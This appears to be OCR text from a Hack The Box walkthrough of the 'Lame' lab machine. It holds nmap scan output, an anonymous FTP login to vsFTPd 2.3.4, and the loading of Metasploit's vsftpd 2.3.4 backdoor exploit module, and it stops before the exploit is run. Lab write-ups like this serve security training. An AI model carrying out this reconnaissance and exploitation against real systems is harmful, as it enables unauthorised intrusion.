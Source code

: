 TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   42.93 ms 10.10.14.1
2   43.61 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.96 seconds


root@kali:~/htb/lame# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> quit
221 Goodbye.


root@kali:~/htb/lame# nmap -p0-65535,U:0-65535 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-27 20:56 EST
Nmap scan report for 10.10.10.3
Host is up (0.039s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 105.48 seconds


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
